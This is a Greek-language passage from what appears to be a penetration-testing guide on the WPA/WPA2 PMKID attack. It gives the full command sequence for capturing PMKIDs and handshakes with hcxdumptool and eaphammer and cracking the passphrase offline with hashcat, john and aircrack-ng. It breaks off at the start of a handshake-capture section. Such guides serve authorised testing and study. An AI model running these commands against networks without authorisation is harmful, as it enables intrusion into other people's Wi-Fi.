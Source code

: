 Πολλοί σύγχρονοι δρομολογητές προσθέτουν ένα **προαιρετικό πεδίο** στο **πρώτο EAPOL** πλαίσιο κατά τη διάρκεια της συσχέτισης, γνωστό ως `Robust Security Network`. Αυτό περιλαμβάνει το `PMKID`.

Όπως εξηγεί η αρχική ανάρτηση, το **PMKID** δημιουργείται χρησιμοποιώντας γνωστά δεδομένα:
```bash
PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)
```
Δεδομένου ότι το "PMK Name" είναι σταθερό, γνωρίζουμε το BSSID του AP και του σταθμού, και το `PMK` είναι ταυτόσημο με αυτό από μια πλήρη 4-way handshake, **hashcat** μπορεί να χρησιμοποιήσει αυτές τις πληροφορίες για να σπάσει το PSK και να ανακτήσει τη φράση πρόσβασης!

Για να **συγκεντρώσετε** αυτές τις πληροφορίες και να **bruteforce** τοπικά τον κωδικό πρόσβασης μπορείτε να κάνετε:
```bash
airmon-ng check kill
airmon-ng start wlan0
git clone https://github.com/ZerBea/hcxdumptool.git; cd hcxdumptool; make; make install
hcxdumptool -o /tmp/attack.pcap -i wlan0mon --enable_status=1
```

```bash
#You can also obtains PMKIDs using eaphammer
./eaphammer --pmkid --interface wlan0 --channel 11 --bssid 70:4C:A5:F8:9A:C1
```
Τα **PMKIDs που καταγράφηκαν** θα εμφανιστούν στην **κονσόλα** και επίσης θα **αποθηκευτούν** μέσα στο \_ **/tmp/attack.pcap**\_\
Τώρα, μετατρέψτε την καταγραφή σε μορφή **hashcat/john** και σπάστε την:
```bash
hcxtools/hcxpcaptool -z hashes.txt /tmp/attack.pcapng
hashcat -m 16800 --force hashes.txt /usr/share/wordlists/rockyou.txt
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
Παρακαλώ σημειώστε ότι η μορφή ενός σωστού hash περιέχει **4 μέρη**, όπως: `4017733ca8db33a1479196c2415173beb808d7b83cfaa4a6a9a5aae7566f6461666f6e65436f6e6e6563743034383131343838` Αν το δικό σας **περιέχει μόνο** **3 μέρη**, τότε είναι **μη έγκυρο** (η καταγραφή PMKID δεν ήταν έγκυρη).

Σημειώστε ότι το `hcxdumptool` **καταγράφει επίσης handshakes** (κάτι τέτοιο θα εμφανιστεί: **`MP:M1M2 RC:63258 EAPOLTIME:17091`**). Μπορείτε να **μετατρέψετε** τα **handshakes** σε μορφή **hashcat**/**john** χρησιμοποιώντας το `cap2hccapx`
```bash
tcpdump -r /tmp/attack.pcapng -w /tmp/att.pcap
cap2hccapx pmkid.pcapng pmkid.hccapx ["Filter_ESSID"]
hccap2john pmkid.hccapx > handshake.john
john handshake.john --wordlist=/usr/share/wordlists/rockyou.txt
aircrack-ng /tmp/att.pcap -w /usr/share/wordlists/rockyou.txt #Sometimes
```
_Έχω παρατηρήσει ότι μερικά handshakes που καταγράφηκαν με αυτό το εργαλείο δεν μπορούσαν να σπαστούν ακόμη και γνωρίζοντας τον σωστό κωδικό. Θα συνιστούσα να καταγράφετε τα handshakes και με τον παραδοσιακό τρόπο αν είναι δυνατόν, ή να καταγράφετε αρκετά από αυτά χρησιμοποιώντας αυτό το εργαλείο._

### Handshake capture

Μια επίθεση σε δίκτυα **WPA/WPA2** μπορεί να εκτελεστεί καταγράφοντας ένα **handshake** και προσπαθώντας να **σπάσει** τον κωδικό **offline**. Αυτή η διαδικασία περιλαμβάνει την παρακολούθηση της επικοινωνίας ενός συγκεκριμένου δικτύου και **BSSID** σε ένα συγκεκριμένο **κανάλι**. Ακολουθεί ένας απλός οδηγός:
